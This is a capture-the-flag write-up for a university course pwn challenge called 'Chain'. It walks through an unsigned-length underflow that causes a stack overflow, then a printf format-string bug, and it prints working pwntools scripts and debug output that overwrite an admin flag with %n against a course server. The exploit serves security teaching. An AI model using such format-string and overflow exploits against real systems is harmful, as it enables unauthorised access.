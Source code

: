```yaml
---
title: "Tutor CTF: Chain"
description: (500 points) Pwn Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-11 17:49+11:00
lastModified: 2022-04-11 17:49+11:00
notes: ''
prevPage: 40_tutorctf_bus_buddies
nextPage: 42_tutorctf_alice_and_bob
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: [tutorctf]
  submenus: []
name: 41_tutorctf_chain
---
```


_Contest Source: [COMP6[84]41 CTF](https://www.comp6841.com/challenges)_

> _Note that all flags have been replaced with "COMP6841{REDACTED}". This is to discourage you from just blindly submitting the final answer, and to encourage you to follow along and learn something along the way._


## Exploration

We're given just the netcat server IP and port, as well as a single executable `chain`. No source code this time! Let's start by running the script and checking the output:

```term
$ ./chain
How long is your name?
5
Enter your name:
Kevin
Welcome "Kevin
"!
Let's see if you are admin...
Have you tried being a better hacker?
```

So it appears that we can enter in a name length, as well as your actual name. Your name is then printed out, and it appears that we fail some sort of check because we get faced with the message `"Have you tried being a better hacker?"`. A typical thing to try now is a buffer overflow. Let's try entering a super long name:

```term
$ ./chain
How long is your name?
123456
Sorry, get a shorter name
```

Looks like they have a check for the name length. Doing a bit of binary searching, I found the highest length I could enter was 63. Now let's try do a buffer overflow:

```term
$ ./chain
How long is your name?
63
Enter your name:
ABCOEOWUGEHOWEUGHOWURHGOWUGHOWURGHOWROGUHWRGOUWHROGUHRWOGUHWROGUHWOGUHOWRUGHOWRUGHOWRUGHOWUGHOWURHGOUWHGOWURHGOUWHGOWUHRGOWURHGOWURHGOWURGHOWURGHOWRUGHWORGUHWORGUHWOGHUWORGHUOWRGUHWORGUHOWRUGHOWRUHGOWURGH
Welcome "ABCOEOWUGEHOWEUGHOWURHGOWUGHOWURGHOWROGUHWRGOUWHROGUHRWOGUHWRO"!
Let's see if you are admin...
Have you tried being a better hacker?
```

Looks like they cut off our name after 62 characters, which is the limit that we set minus 1. Finally, let's try a format strings attack:

```term
$ ./chain
How long is your name?
63
Enter your name:
%x.%x.%x
Welcome "%x.%x.%x
"!
Let's see if you are admin...
Have you tried being a better hacker?
```

Looks like it didn't work. It doesn't look like we'll get much more information from this, so let's go ahead and try reverse engineering it.

## Reverse Engineering

Booting up `chain` in Ghidra and doing some variable renaming, we get the following:

![](/blog_posts/41_tutorctf_chain/images/image1.png){width=70%}

So it appears that after entering our name length (stored in `name_len[0]`), they subtract one and use that as an argument for `read()`. However, this is really important, since `name_len[0]` is defined as a unsigned short. That means that if we enter a length of 0, not only does it pass the max length check, it means that after we subtract one from it, our name_length will underflow. That means that we'll able to scan up to 0XFFFF = 65535 characters! Let's try this

```term
$ ./chain
How long is your name?
0
Enter your name:
WROGUHWORGUHWOUGHOWURGHOUWRGHOWRHGOURHWOGHOWGOWRUGHORWHGGORHOWGHUOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
Welcome "WROGUHWORGUHWOUGHOWURGHOUWRGHOWRHGOURHWOGHOWGOWRUGHORWHGGORHOWGHUOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
�"!
UOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
�Have you tried being a better hacker?
```

As we can see, we got far more than 63 characters in the Welcome message. But there's more... Where did the `"Let's see if you are admin..."` message go? It seems to have been replaced with more of the nonsense text from the name we entered. Looking at the Ghidra code, we see that the check admin message was originally stored on the stack. This means that we've now achieved buffer overflow, and have started overwriting the admin message.

But this is critical. We see that on line 56, `printf()` is called directly on the string. That means that admin message string is susceptible to a format string vulnerability attack. Let's start by overwriting the admin message to start with 4B's, and then trying to find where on the stack those B's lie. After a bit of experimentation with pwntools, this is what I came up with

```python
from pwn import *

conn = remote("13.210.180.94",  12345)
conn.recvuntil(b'How long is your name?')
conn.sendline(b'0')
conn.recvuntil(b'Enter your name:')

buf = b'A'*63 + b'\x00'
buf += f'ABBBB.%24$x'.encode()
conn.sendline(buf)
conn.recvall()
```

Note that I had an extra 'A' at the beginning of the "BBBB" in order to get the bytes to align properly. Sometimes a littl experimentation like this is required. Running this, I got:

```term
$ p3 get.py DEBUG
[+] Opening connection to 13.210.180.94 on port 12345: Done
[DEBUG] Received 0x16 bytes:
    b'How long is your name?'
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x11 bytes:
    b'Enter your name:\n'
[DEBUG] Sent 0x4c bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 00  │AAAA│AAAA│AAAA│AAA·│
    00000040  41 42 42 42  42 2e 25 32  34 24 78 0a               │ABBB│B.%2│4$x·│
    0000004c
[+] Receiving all data: Done (147B)
[DEBUG] Received 0x4b bytes:
    b'Welcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\n'
[DEBUG] Received 0x47 bytes:
    b'ABBBB.42424242\n'
    b' you are admin...\n'
    b'Have you tried being a better hacker?\n'
[*] Closed connection to 13.210.180.94 port 12345
```

Notice that at the end, I receive `0x47` bytes, which start with `b'ABBBB.42424242\n'`. The 42's are the hexadecimal representation of 'B', which means that we've managed to find the location of the B's on the stack. From here, all we need to do is replace the B's with the address of `isadmin`, and replace the `%x` with a `%n`. The `%n` will have the effect of writing the number of bytes we've written so far in the printf to the address specified. Note that the exact number of bytes that `%n` will use to write to `isadmin` doesn't matter, as long as it's non zero.

To get the address of `isadmin`, we can use objdump:

```term
$ objdump -t ./chain | grep isadmin
0804a044 g     O .bss	00000004              isadmin
```

I.e. the address is `0x0804a044`. Modifying out python script to the following and running it gets us the flag.

```python
from pwn import *

conn = remote("13.210.180.94",  12345)
conn.recvuntil(b'How long is your name?')
conn.sendline(b'0')
conn.recvuntil(b'Enter your name:')

buf = b'A'*63 + b'\x00'
# buf += f'ABBBB%24$x\n\x00'.encode()
buf += b'A\x44\xa0\x04\x08%24$n'
conn.sendline(buf)
ret = conn.recvall()
print(ret)
```

```term
$ p3 get.py DEBUG
[+] Opening connection to 13.210.180.94 on port 12345: Done
[DEBUG] Received 0x16 bytes:
    b'How long is your name?'
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x11 bytes:
    b'Enter your name:\n'
[DEBUG] Sent 0x4b bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 00  │AAAA│AAAA│AAAA│AAA·│
    00000040  41 44 a0 04  08 25 32 34  24 6e 0a                  │AD··│·%24│$n·│
    0000004b
[+] Receiving all data: Done (357B)
[DEBUG] Received 0x4b bytes:
    b'Welcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\n'
[DEBUG] Received 0x119 bytes:
    00000000  41 44 a0 04  08 0a 66 20  79 6f 75 20  61 72 65 20  │AD··│··f │you │are │
    00000010  61 64 6d 69  6e 2e 2e 2e  0a 43 4f 4d  50 36 38 34  │admi│n...│·COM│P684│
    00000020  31 ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  │1{RE│DACT│EDRE│DACT│
    00000030  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  │EDRE│DACT│EDRE│DACT│
    00000040  ?? ?? ?? ??  ?? ?? 7d 0a  00 00 00 00  00 00 00 00  │EDRE│DA}·│····│····│
    00000050  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000110  00 00 00 00  00 00 00 00  00                        │····│····│·│
    00000119
[*] Closed connection to 13.210.180.94 port 12345
b'\nWelcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\nAD\xa0\x04\x08\nf you are admin...\nCOMP6841{REDACTED}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
> _Note: Bytes replaced with '?', to avoid spoilers._